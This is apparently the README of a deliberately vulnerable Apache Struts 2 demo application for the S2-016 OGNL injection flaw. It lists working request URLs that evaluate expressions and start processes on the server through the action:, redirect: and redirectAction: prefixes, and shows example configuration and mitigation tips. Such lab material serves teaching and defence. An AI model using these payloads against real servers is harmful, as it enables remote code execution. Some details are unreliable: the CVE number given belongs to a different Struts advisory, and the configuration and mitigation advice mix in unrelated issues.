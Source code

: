# S2-016 Vulnerability Demonstration

## Overview
This application demonstrates the Apache Struts 2 vulnerability identified as **CVE-2013-2134** (S2-016). The vulnerability arises due to improper sanitization of parameters prefixed with `action:`, `redirect:`, or `redirectAction:`. These prefixes are used by the Struts 2 DefaultActionMapper to attach navigational information to buttons within forms. However, the information following these prefixes is evaluated as OGNL expressions against the value stack, introducing the possibility of server-side code injection.

## How the Vulnerability is Exploited

### Simple Expression Evaluation
1. A request like the following can exploit the vulnerability by evaluating OGNL expressions:
   ```
   http://localhost:8080/example/X.action?action:%25{3*4}
   http://localhost:8080/example/X.action?redirect:%25{3*4}
   ```
   These URLs will evaluate the OGNL expression `%{3*4}` and return the result.

### Remote Command Execution
1. A request like the following can exploit the vulnerability to execute arbitrary commands on the server:
   ```
   http://localhost:8080/example/X.action?action:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'calc'})).start()}
   http://localhost:8080/example/X.action?redirect:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'calc'})).start()}
   http://localhost:8080/example/X.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'calc'})).start()}
   ```
   These URLs will execute the `calc` command on the server.

## Demonstration in This Application

1. **Vulnerable ActionMapper Configuration**:
   - The `struts.xml` file contains the following vulnerable configuration:
     ```xml
     <action name="*" class="com.demo.action.PageAction">
         <result>/example/{1}.jsp</result>
     </action>
     ```
   - This allows user input to dynamically determine the JSP file to load, enabling OGNL injection.

2. **Command Execution via Redirect**:
   - The `struts.xml` file contains the following vulnerable configuration:
     ```xml
     <action name="redirectExample" class="com.demo.action.RedirectExampleAction">
         <result name="success" type="redirect">/example/{1}.jsp</result>
     </action>

     <action name="commandExecution" class="com.demo.action.CommandExecutionAction">
         <result name="success" type="redirectAction">/example/{1}.jsp</result>
     </action>
     ```
   - These configurations allow OGNL expressions to be evaluated in the `redirect` and `redirectAction` parameters, enabling command execution.

## Mitigation
To secure the application:

1. **Disable Dynamic Method Invocation**:
   - Set `struts.enable.DynamicMethodInvocation` to `false` in `struts.xml`.

2. **Sanitize Input**:
   - Ensure that all user input is properly validated and sanitized to prevent OGNL injection.

3. **Upgrade Struts**:
   - Use a patched version of Apache Struts 2 where this vulnerability is fixed.

## Disclaimer
This application is for educational purposes only. Exploiting vulnerabilities without proper authorization is illegal and unethical.